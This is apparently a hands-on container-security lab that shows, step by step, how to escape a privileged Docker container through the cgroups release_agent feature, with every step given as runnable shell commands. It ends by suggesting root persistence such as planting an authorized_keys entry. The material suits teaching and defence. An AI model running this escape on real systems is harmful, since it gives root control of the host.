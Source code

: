 ## Escaping via cgroups release_agent

When inside of a container running in privileged mode (as determined in steps 1-2) we can escape using the release_agent feature of cgroups.

### Start a privileged container

First, start an interactive shell inside a privileged container.  The remainder of the commands in this step will run inside the container.

```
docker run -it --privileged ubuntu:18.04 bash
```{{execute}}

### Mount cgroups inside the container

Next, we mount the cgroups filesystem within the container so that we can manipulate it:

```
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp
```{{execute}}

### Create a cgroup with crafted release_agent

Now we create a cgroup with a release agent that can execute on the host an arbitrary command from the container's "/cmd" file:

```
mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```{{execute}}

### Specify the command

We could place any command inside this file.  We'll use ps as an example:

```
cat > /cmd <<EOF
#!/bin/sh
ps aux > $host_path/output 2>&1
EOF
chmod a+x /cmd
```{{execute}}

The output is sent to the container's "/output" file, so that we can see it from within the container.

### Run a process in the cgroup to trigger the release_agent

The release_agent runs when all processes have exited from the cgroup.  This feature is intended to provide a hook to clean up the cgroups themselves after they are no longer used.

The following command puts the "sh" process's ID into the cgroup we've configured.  The "sh" process exits immediately after, as it has no more commands to run, which triggers the release_agent to run.

```
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```{{execute}}

Inspect the output:

```
cat /output
```{{execute}}

To see how different that output is from running "ps" inside the container, run "ps" inside the container:

```
ps aux
```{{execute}}

### Try another command...

Now try modifying the command ("ps aux") inside of "/cmd" to run something
else.  Can you overwrite a binary, install an authorized_keys entry for root,
or add a .bashrc for root?
